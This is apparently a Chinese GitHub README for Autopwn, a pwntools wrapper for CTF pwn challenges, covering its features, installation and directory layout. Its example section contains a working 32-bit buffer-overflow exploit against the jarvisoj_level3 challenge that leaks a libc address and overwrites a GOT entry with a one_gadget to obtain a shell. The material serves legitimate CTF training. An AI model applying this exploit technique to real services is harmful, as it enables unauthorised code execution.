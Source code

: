 # Autopwn

## 简介

Autopwn项目，致力于提供如下特性：

- 简化exp
- 对pwntools常用功能的更好的包装

目前已经实现的功能：
- 对自定义函数的包装（不完善）
- 使用命令行参数启动脚本，从而实现不同的功能（local run，local debug，remote run）
- 允许用户自定义debug时的gdb脚本，添加了对PIE程序仅使用偏移下断点的支持
- 允许用户自行提供函数封装，并将其添加为tubes的方法，已内置数个别名
- 允许用户更改elf文件的库查找路径与解释器路径（使用patchelf实现）
- 允许用户为当前的elf生成一个可修改的lief Binary对象
- 添加Ubuntu常用库的数据库（ld，libc，libdl）

## 效果图

- 自动生成配置文件


- 搭配emacs的YASnippet插件一键生成exp框架


- 一键patchelf

- 自带常用tube方法别名（如rl，sl，ru），一键运行

- 无视PIE，自定义断点，一键调试

- 一键远程连接


## 安装

### 依赖
- python 2.7 (environment)
- pwntools (module)
- pandas (module)
- lief (module)
- patchelf (application)

### 安装方法

1. `git clone https://github.com/CTSinon/Autopwn.git`
   
2. 将这一行添加到.bashrc中：
`alias gen='python path/to/gen.py`

3. 将autopwn文件夹添加到python的path中

4. 将LIBC文件夹中的ubuntu库放到你喜欢的位置

5. enjoy it!

## 其他

### 栗子🌰

题目链接：https://buuoj.cn/challenges#jarvisoj_level3

```python
from pwn import *
from autopwn.core import pwn
from sys import argv

def leak(self, a):
    pass


# 该函数将会被动态添加到内置的一个类中
# 你可以自由的使用类属性（如当前elf对象）
# 代价仅仅是在参数中添加一个self
def exp(self, a):
    read_got = self.elf.got['read']
    # 这里elf对象是类属性
    write_got = self.elf.got['write']
    write_plt = self.elf.plt['write']
    read_plt = self.elf.plt['read']
    esp_c = 0x080482ee
    read_offset = self.lib[0].symbols['read']
    # lib同样是类属性，是一个存放下面指定的lib对应的elf对象的数组
    one_offset = 0x3a80c

    a.rl()
    # 这是recvline的别名，你可以在less_tube.py中定义你自己的别名
    payload = 'a' * 0x88
    payload += 'a' * 4
    payload += p32(write_plt) + p32(esp_c)
    payload += p32(1) + p32(read_got) + p32(4)
    payload += p32(read_plt) + p32(write_plt)
    payload += p32(0) + p32(write_got) + p32(4)

    a.sl(payload)

    read_addr = unpack(a.recvn(4), 'all')
    a.lg("Got read addr: ", read_addr)
    one_addr = read_addr + one_offset - read_offset

    a.send(p32(one_addr))
    
# 该函数用于getshell之后获取flag
# 一般的题目这样就好
def get_flag(self, a):
    a.interactive()
    return

pwn.ctf(argv, exp, get_flag,
        bp=0x080484a6,
        # 指定断点，开启PIE时使用偏移就好
        inter='../libc6-i386_2.23-0ubuntu10_amd64/ld-2.23.so',
        # 如果你要patch libc的话，一定要指定相应的ld
        needed=['../libc6-i386_2.23-0ubuntu10_amd64/libc-2.23.so'])
        # needed是一个数组，你可以使用它来替换dynamic段中所用needed项（包括大部分动态链接库）
```

### 目录结构

```
.
├── \
├── autopwn
│   ├── awd                       # awd框架，未实现
│   │   ├── attacker.py           # =-=
│   │   ├── attack.py             # =-=
│   │   ├── get_ip.py             # 获取目标列表
│   │   └── __init__.py
│   ├── core
│   │   ├── classes.py            # 存放核心类
│   │   ├── __init__.py
│   │   └── pwn.py                # 主文件
│   ├── ctf
│   │   ├── attack.py             # 主文件
│   │   ├── __init__.py
│   │   ├── less_tube.py          # 为tube类添加更多特性
│   │   └── stack.py              # 栈布局可视化（已废弃）
│   └── __init__.py
├── autopwn.conf                  # 配置文件模版
├── gen.py                        # 生成配置文件
├── README.md
└── test
    ├── flag
    └── payload.py
```

### 碎碎念

作者没有专业研究过python这门语言，所以脚本写得一眼难尽。设计模式之类的更是没怎么研究过。希望各路大神能提出更好的建议，添加更方便的功能，大家一起进步呀 (๑•̀ㅂ•́)و✧ 
